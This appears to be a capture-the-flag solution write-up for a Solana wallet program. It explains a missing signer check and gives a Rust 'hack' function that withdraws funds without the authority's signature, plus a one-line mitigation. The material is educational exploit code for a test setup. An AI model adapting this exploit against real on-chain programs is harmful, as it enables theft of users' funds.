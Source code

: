 # Solution - Missing Signer Check

The vulnerability in this contract is a missing signer check in the withdraw function:

The wallet authority does not have to sign the execution of the instruction. This has the effect, that everybody can pretend to be the authority.

```rust
use {
    borsh::BorshSerialize,
    solana_program::{
        instruction::{AccountMeta, Instruction},
        pubkey::Pubkey,
        system_program,
    },
    solana_program_test::*,
    solana_sdk::{
        account::Account,
        hash::Hash,
        signature::{Keypair, Signer},
        transaction::Transaction,
    },
};

use wallet_what_wallet::instruction::WalletInstruction;
use wallet_what_wallet::state::{Wallet, WALLET_LEN};

async fn hack(
    banks_client: &mut BanksClient,
    payer: &Keypair,
    recent_blockhash: Hash,
    program_id: &Pubkey,
    wallet_address: Pubkey,
    wallet_authority: &Pubkey,
    destination: &Pubkey,
    amount: u64,
) -> Result<(), BanksClientError> {
    // Create withdraw instruction using the vulnerability:
    // The withdraw function only checks if the authority key matches
    // but doesn't verify that the authority actually signed the transaction
    let withdraw_instruction = Instruction::new_with_borsh(
        *program_id,
        &WalletInstruction::Withdraw { amount },
        vec![
            AccountMeta::new(wallet_address, false), // wallet_info
            AccountMeta::new_readonly(*wallet_authority, false), // authority_info - NOT SIGNING!
            AccountMeta::new(*destination, false),   // destination_info
        ],
    );

    // Create and sign transaction - only payer signs, not the wallet authority
    let mut transaction =
        Transaction::new_with_payer(&[withdraw_instruction], Some(&payer.pubkey()));
    transaction.sign(&[payer], recent_blockhash);

    // Execute the hack
    banks_client.process_transaction(transaction).await
}
```

# Mitigation

By adding a check in the `withdraw` function, to check if the `wallet_info` is signed this vulnerability can be prevented:

```rust
assert!(authority_info.is_signer);
```

# Additional Resources

[Singer Auth Lesson](https://solana.com/developers/courses/program-security/signer-auth)
